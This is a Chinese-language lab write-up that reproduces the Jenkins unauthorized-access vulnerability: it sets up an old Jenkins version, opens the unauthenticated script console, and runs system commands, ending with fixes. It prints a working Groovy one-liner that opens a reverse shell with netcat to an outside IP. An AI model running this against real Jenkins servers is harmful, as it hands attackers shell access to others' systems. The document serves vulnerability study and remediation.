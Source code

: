 ```yaml
---
title: Jenkins未授权访问漏洞
categories:
  - 漏洞复现
abbrlink: 15292
date: 2020-12-01 16:30:12
---
```


### 前言
　　默认情况下 Jenkins面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务，通过脚本执行界面从而获取服务器权限。
<!-- more -->

### 环境搭建

```bash
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
官网地址：http://mirrors.jenkins.io/ 
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行
```

<img src="https://s3.ax1x.com/2020/12/01/DfHnoQ.png"

```bash
service jenkins start # 启动jenkins服务
```
访问8080端口后出现下图后环境搭建成功
<img src="https://s3.ax1x.com/2020/12/01/DfbFk4.png">

### 未授权访问
　　访问http://192.168.127.132:8080/manage 无需密码可直接访问
　　<img src="https://s3.ax1x.com/2020/12/01/DfqgGd.png">
### 漏洞利用
　　来到脚本命令行,可执行系统命令
　　输入`println "whoami".execute().text`，查看当前用户权限
<img src="https://s3.ax1x.com/2020/12/01/DfOecn.png">
　　反弹shell
　　开启333端口侦听
　　<img src="https://s3.ax1x.com/2020/12/01/DfOLD0.png">
　　脚本命令行，运行`println "nc -vn 10.16.122.123 333 -e /bin/bash".execute().text`,可成功返回shell
　　<img src="https://s3.ax1x.com/2020/12/01/DfXciF.png">
　　这里我有一个地方复现失败，在可选插件里面，是可以安装一个Terminal Plugin插件，它是一个终端插件，然而我并没有找到。
　　更多利用方法参考链接:https://www.secpulse.com/archives/2166.html
### 解决方案
　　1、升级版本
　　2、添加认证
　　3、禁止把Jenkins直接暴露在公网